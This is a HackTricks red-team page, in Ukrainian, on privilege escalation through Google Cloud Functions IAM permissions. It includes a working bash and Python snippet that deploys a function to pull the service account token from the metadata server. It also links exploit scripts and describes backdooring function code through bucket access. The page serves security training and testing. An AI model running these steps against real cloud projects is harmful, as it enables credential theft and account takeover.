 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Більше інформації про Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **створити нову Cloud Function з довільним (шкідливим) кодом і призначити їй обліковий запис служби**. Потім, витягнути токен облікового запису служби з метаданих, щоб підвищити привілеї до нього.\
Можливо, знадобляться деякі привілеї для активації функції.

Скрипти експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) і [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), а попередньо зібраний .zip файл можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **модифікувати код функції і навіть змінювати обліковий запис служби, що прикріплений** з метою ексфільтрації токена.

{% hint style="danger" %}
Щоб розгорнути cloud functions, вам також знадобляться дозволи actAs над обліковим записом служби за замовчуванням для обчислень або над обліковим записом служби, який використовується для створення образу.
{% endhint %}

Деякі додаткові привілеї, такі як дозвіл `.call` для версії 1 cloudfunctions або роль `role/run.invoker` для активації функції можуть бути необхідні.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Якщо ви отримали помилку `Permission 'run.services.setIamPolicy' denied on resource...`, це означає, що ви використовуєте параметр `--allow-unauthenticated` і у вас недостатньо прав для цього.
{% endhint %}

Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

З цією дозволом ви можете отримати **підписане URL, щоб завантажити файл до функціонального бакету (але код функції не буде змінено, вам все ще потрібно його оновити)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Не зовсім впевнений, наскільки корисним є лише цей дозвіл з точки зору атакуючого, але добре знати.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Надайте собі будь-які з попередніх **`.update`** або **`.create`** привілеїв для ескалації.

### `cloudfunctions.functions.update`

Маючи лише **`cloudfunctions`** дозволи, без **`iam.serviceAccounts.actAs`** ви **не зможете оновити функцію, ТОМУ ЦЕ НЕ Є ДІЙСНОЮ ЕСКАЛАЦІЄЮ.**

### Доступ на читання та запис до бакету

Якщо у вас є доступ на читання та запис до бакету, ви можете моніторити зміни в коді, і коли **відбувається оновлення в бакеті, ви можете оновити новий код своїм кодом**, з яким нова версія Cloud Function буде запущена з поданим бекдорним кодом.

Ви можете дізнатися більше про атаку в:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Однак ви не можете використовувати це для попереднього компрометації сторонніх Cloud Functions, тому що якщо ви створите бакет у своєму обліковому записі та надасте йому публічні дозволи, щоб зовнішній проект міг записувати в нього, ви отримаєте наступну помилку:

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Однак це може бути використано для DoS-атак.
{% endhint %}

### Доступ на читання та запис до Artifact Registry

Коли створюється Cloud Function, новий образ docker завантажується до Artifact Registry проекту. Я намагався змінити образ на новий, і навіть видалити поточний образ (та образ `cache`), і нічого не змінилося, cloud function продовжує працювати. Тому, можливо, **можливо зловживати атакою Race Condition** як з бакетом, щоб змінити контейнер docker, який буде запущено, але **просто зміна збереженого образу не можлива для компрометації Cloud Function**.

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

